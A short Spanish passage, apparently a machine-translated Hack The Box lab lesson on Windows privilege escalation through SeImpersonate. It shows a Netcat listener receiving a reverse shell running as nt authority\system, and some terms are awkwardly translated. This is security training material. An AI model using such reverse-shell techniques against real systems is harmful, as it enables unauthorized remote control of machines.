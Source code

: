 #### Atrapar la carcasa inversa como sistema

Si todo va de acuerdo con el plan, tendremos un shell de sistema en nuestro oyente de Netcat.

  Seimpersonate y SeassignPrimaryToken

```shell-session
xnoxos@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

Privilegios crecientes al aprovechar`SeImpersonate`es muy común. Es esencial estar familiarizado con los diversos métodos disponibles para nosotros, dependiendo de la versión y el nivel del sistema operativo de host de destino.